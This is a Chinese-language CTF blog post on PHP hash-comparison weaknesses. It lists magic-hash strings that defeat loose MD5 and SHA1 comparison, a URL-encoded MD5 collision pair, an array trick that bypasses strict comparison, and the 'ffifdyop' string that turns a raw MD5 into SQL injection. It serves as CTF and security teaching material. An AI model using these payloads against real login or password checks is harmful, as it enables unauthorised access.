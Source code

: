 ```yaml
---
layout: post
title: "MD5、HASH相关漏洞"
date:   2024-9-29
tags: [PHP, MD5, CTF, WEB, SQL注入]
comments: true
author: MK-KM1542
---
```




## MD5弱比较

```php
<?php
if(md5($_GET['a']) == md5($_GET['b'])){
    echo $flag;
}
?>
```

输入两个值，然后对比两个值的MD5值，如果相等，则输出flag。

典型的弱类型比较，符合两个条件：

1. MD5计算后结果开头是0e    0e开头是让PHP把这段字符串认为是科学记数法字符串的先决条件
2. 0e后面全是数字。例如，0e123==0e234，0的N次方始终是0

满足以上两个条件的字符串有：

1. QNKCDZO
2. 240610708
3. s155964671a
4. s878926199a
5. s214587387a
6. s1885207154a
7. s1836677006a

md5(md5())后开头是0e的字符串：

1. CbDLytmyGm2xQyaLNhWn
2. 770hQgrBOjrcqftrlaZk
3. 7r4lGXCH2Ksu2JNT3BYM

```php
CbDLytmyGm2xQyaLNhWn

md5(CbDLytmyGm2xQyaLNhWn) => 0ec20b7c66cafbcc7d8e8481f0653d18

md5(md5(CbDLytmyGm2xQyaLNhWn)) => 0e3a5f2a80db371d4610b8f940d296af

770hQgrBOjrcqftrlaZk

md5(770hQgrBOjrcqftrlaZk) => 0e689b4f703bdc753be7e27b45cb3625

md5(md5(770hQgrBOjrcqftrlaZk)) => 0e2756da68ef740fd8f5a5c26cc45064

7r4lGXCH2Ksu2JNT3BYM

md5(7r4lGXCH2Ksu2JNT3BYM) => 0e269ab12da27d79a6626d91f34ae849

md5(md5(7r4lGXCH2Ksu2JNT3BYM)) => 0e48d320b2a97ab295f5c4694759889f
```

## MD5相同的二进制数据

注意URL编码

md5(param1) === md5(param2)

```txt
param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
```

## MD4

MD4也满足这两个条件的字符串：

1. 0e251288019

## SHA1

SHA1也满足这两个条件的字符串：

1. aa3OFF9m
2. aaO8zKZF
3. aaroZmOk
4. aaK1STfY

## MD5数组绕过

MD5不能处理数组，若有以下判断则可用数组绕过

```php
if(md5($_GET['a']) === md5($_GET['b']))
{
    echo "yes";
}
//http://127.0.0.1/1.php?a[]=1&b[]=2
```

## sql注入MD5

**ffifdyop**

```sql
select * from 'admin' where password =md5($pass,ture)
```

$pass = ffifdyop

ffifdyop
md5加密后形成'or'6XXXXXXXXX'(这里的XXXXX是一些乱码和不可见字符)
md5值为：
'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
这里的SQL语句会变成

```sql
select * from `admin` where password=''or'6XXXXXXXXX'  
```

形成sql注入
